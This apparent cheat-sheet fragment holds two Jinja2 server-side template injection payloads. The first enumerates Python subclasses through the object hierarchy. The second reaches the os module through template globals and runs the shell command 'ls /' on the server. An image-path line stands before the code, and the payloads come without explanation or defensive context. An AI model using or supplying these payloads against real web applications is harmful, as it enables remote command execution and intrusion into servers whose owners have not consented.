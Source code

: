 #ALL AVAILABLE CLASSES
{{ "".__class__.__mro__[1].__subclasses__() }}

#READ ALL DIRECTORIES IN / PARTITION
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen("ls /").read() }}
